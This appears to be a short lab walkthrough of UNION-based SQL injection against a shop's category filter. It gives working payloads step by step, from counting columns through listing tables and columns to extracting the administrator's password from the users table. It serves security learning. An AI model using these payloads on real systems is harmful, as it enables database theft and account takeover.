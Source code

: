 #### First figure out the no. of columns available to us
```
/filter?category=Gifts'+UNION+SELECT+null--            #Error response
/filter?category=Gifts'+UNION+SELECT+null,null--       #200 OK
/filter?category=Gifts'+UNION+SELECT+null,null,null--  #Error response
```


#### Then lets print out all the available table names in information_schema
```
/filter?category=Gifts' union select table_name,null from information_schema.tables--  #url encode it if necessary
```


#### From the above query we see that there is a table called `users`. Now, lets figure out what columns it contains.
```
/filter?category=Gifts' union select column_name,null from information_schema.columns where table_name='users'--
```


#### We see two columns `username` and `password` in the users table. So lets get the password of the `administrator` user.
```
/filter?category=Gifts' union select password,null from users where username='administrator'--
```
